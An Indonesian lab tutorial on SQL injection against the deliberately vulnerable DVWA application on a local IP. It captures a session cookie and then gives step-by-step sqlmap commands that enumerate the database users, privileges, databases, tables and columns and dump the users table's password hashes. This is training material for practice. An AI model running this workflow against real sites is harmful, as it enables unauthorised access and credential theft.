## LESSON 7

Inti dari Lesson 7 adalah mendapatkan 4 hal, yaitu:
1. **List** dari **Database Management Usernames dan Passwords**
2. **List** dari **Database**
3. **List** dari **Table** yang ada di dalam **Database** tertentu
4. **List** dari **Username** dan **Password** yang ada di dalam **Database**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Mendapatkan PHP Cookie**
1. Lakukan **Tamper Data** ke dalam **DVWA**. Lalu klik **SQL Injection** dan masukkan angka **1** ke dalam **Text Box** lalu klik **Submit**. Lalu lakukan hal yang sama dengan **Tamper Data** di **Lesson** sebelumnya.



2. **Copy** **Referer Link**



3. **Paste** ke dalam **Notepad**



4. **Copy* **Cookie Information**



5. **Paste** ke dalam **Notepad**

Masukkan command



**B. Menggunakan SqlMap untuk Mendapatkan User dan Database Sekarang**
1. Masuk ke dalam **SqlMap** dan lakukan command berikut

```
cd /pentest/database/sqlmap
ls -l sqlmap.py
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2; security=low" -b --current-db --current-user
```

**NOTE**
- Untuk command setelah **-u** menggunakan **Referer Link** yang didapatkan
- PHPSESSID diisi dengan **Cookie** yang didapatkan
- Jika terdapat pilihan **y/n** maka pilih **y**



Didapatkan **User** dan **Database** yang digunakan sekarang



**C. Menggunakan SqlMap untuk mendapatkan Username dan Password Database Management**
1. Lakukan command berikut

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2; security=low" --string="Surname" --users --password
```



Didapatkan **Username** dan **Password** yang ada di dalam **Database Management**



2. Masukkan command berikut untuk mendapatkan **Database Privileges** untuk **User** yang baru ditambah **sani_hacker**

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2; security=low" -U db_hacker --privileges
```



Didapatkan **Privileges** dari **User** yang diinginkan



**D. Mendapatkan List dari Semua Database**
1. Lakukan command berikut

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;  security=low" --dbs
```



Didapatkan **Database** yang ada



**E. Mendapatkan Tables dan Contents dari Database Tertentu**
1. Lakukan command berikut

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;   security=low" -D dvwa --tables
```



Didapatkan **Tables** dari **Database** yang ditarget



2. Lakukan command berikut untuk mendapatkan **Columns** dari **Table** **dvwa.users**

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;   security=low" -D dvwa -T users --columns
```



Didapatkan **Tables** dari **Database** yang ditarget



3. Lakukan command berikut untuk mendapatkan **User** dan **Password** dari **Table** **dvwa.users**

```
./sqlmap.py -u "htp://192.168.1.103/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=v0o6r5agj13d6ngqspllu9i6b2;   security=low" -D dvwa -T users -C user,password --dump
```



Didapatkan **User** dan **Password** dari **Database** yang ditarget



### Kesimpulan Lesson 7

Menggunakan **SqlMap** dapat menemukan informasi mengenai **Database** yang menjadi target
